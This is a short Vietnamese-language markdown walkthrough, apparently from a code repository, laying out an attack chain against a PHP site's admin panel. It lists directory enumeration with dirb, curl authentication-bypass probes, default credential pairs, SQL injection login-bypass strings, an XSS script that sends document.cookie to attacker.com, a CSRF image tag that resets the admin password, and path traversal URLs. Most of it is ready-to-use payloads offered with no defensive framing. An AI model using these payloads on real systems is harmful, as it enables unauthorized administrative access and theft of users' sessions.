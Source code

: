 ### Chuỗi Tấn Công Từng Bước

1. **🔍 Trinh Sát**
   ```bash
   # Liệt kê thư mục
   dirb http://target.com/admin/
   ```

2. **🚪 Các Vector Truy Cập Admin (Không Cần Login)**

   #### **Vector A: Bypass Authentication**
   ```bash
   # Test truy cập trực tiếp admin functions
   curl "http://target.com/admin/index.php?p=seo-co-ban"
   
   # Kiểm tra session validation yếu
   curl -H "Cookie: PHPSESSID=invalid" "http://target.com/admin/"
   ```

   #### **Vector B: Default/Weak Credentials**
   ```
   Thử các combo phổ biến:
   admin:admin
   admin:123456  
   admin:password
   root:root
   administrator:admin
   demo:demo
   test:test
   ```

   #### **Vector C: SQL Injection trong Login**
   ```sql
   -- Bypass login form
   Username: admin' OR '1'='1' --
   Password: anything
   
   -- Union-based injection  
   Username: admin' UNION SELECT 1,1,1 --
   Password: ' OR '1'='1
   ```

   #### **Vector D: Session Fixation/Hijacking**
   ```javascript
   // XSS để steal admin session
   <script>
   fetch('http://attacker.com/steal.php?cookie=' + document.cookie);
   </script>
   
   // CSRF để thay đổi admin password
   <img src="http://target.com/admin/change_password.php?new_pass=hacked123">
   ```

   #### **Vector E: Path Traversal & Direct Access**
   ```bash
   # Bypass qua path manipulation
   http://target.com/admin/../admin/index.php
   http://target.com/admin/./index.php?p=seo-co-ban
   
   # Truy cập direct vào admin functions
   http://target.com/admin/sources/seo-co-ban.php
   ```
